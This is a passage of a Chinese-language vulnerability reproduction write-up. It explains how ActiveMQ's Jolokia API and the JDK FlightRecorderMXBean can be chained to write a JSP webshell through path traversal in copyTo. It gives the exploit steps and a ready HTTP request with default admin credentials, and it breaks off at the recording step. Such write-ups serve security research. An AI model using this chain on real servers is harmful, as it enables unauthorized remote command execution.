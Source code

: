 **copyTo** 传入Recording ID和保存路径，这个路径没做限制，我们可以路径穿越到web目录去

```java
public void copyTo(long recording, String path) throws IOException {
    Objects.requireNonNull(path);
    MBeanUtils.checkControl();
    getExistingRecording(recording).dump(Paths.get(path));
}
```

二、利用完整思路
========

1. 构造恶意请求,传入目标MBean为FlightRecorderMXBean，调用FlightRecorderMXBean的newRecording方法创建一个新的Recording对象
2. 调用setConfiguration方法,设置Recording使用的配置文件,在配置文件中的键名中插入WebShell。由于导出的数据会包含键名，所以当我们在键名中插入WebShell时，导出的数据也会包含该WebShell
3. 调用startRecording开启事件记录
4. 调用stopRecording停止事件记录
5. 调用copyTo方法,将记录的数据保存到指定文件,这里我们可以指定为web应用目录下的一个jsp文件
6. 这样最终就实现了写入一个包含恶意命令执行代码的WebShell文件，之后访问这个WebShell,命令就会被执行

三、漏洞复现
======

从[stackoverflow](https://stackoverflow.com/questions/27707190/activemq-jolokia-api-how-can-i-get-the-full-message-body)找到了jolokia api的使用案例

![image-20231201132405830](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-c5dfd2a05b4040db553a93760c88ee4285fdc5b2.png)

**构造数据包：**

1、调用newRecording，获取ID为1

```http
POST /api/jolokia/ HTTP/1.1
Host: 172.23.80.196:8161
Origin:172.23.80.196:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Type: application/json

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```

![image-20231201133945413](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-d54ecea017846a14fafb0d4aa3cd929f98e09ed5.png)

2、调用setConfiguration构造包含WebShell的配置文件，注意需要把xml数据的双引号转义并去除换行

![image-20231201134832579](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-230797c06c5a5bfef4262463718485dcddcb6c96.png)

3、开始录制数据
